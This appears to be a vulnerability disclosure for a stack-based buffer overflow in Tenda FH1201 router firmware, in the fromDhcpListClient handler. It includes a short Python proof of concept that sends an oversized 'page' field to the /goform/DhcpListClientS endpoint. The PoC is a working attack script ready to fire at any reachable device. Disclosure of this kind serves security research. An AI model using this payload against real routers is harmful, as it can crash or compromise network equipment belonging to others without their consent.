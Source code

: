 ## fromDhcpListClient-2

Tenda [FH1201V1.0BR_V1.2.0.14(408)_EN](https://www.tendacn.com/download/detail-3322.html) has a stackoverflow vulnerability。

### Description

In function `fromDhcpListClient` it reads user input `page` without any length check, which may lead to stack-based buffer v7 overflow.

![alt text](./fromDhcpListClient-2.png)


### PoC

```python
import requests

IP = "192.168.85.143"
url = f"http://{IP}/goform/DhcpListClientS"

data = {
    "LISTEN": 0,
    "page": b"a" * 0x1000,
}

response = requests.post(url=url, data=data)
print(response.text)
```

![alt text](./fromDhcpListClient-2-result.png)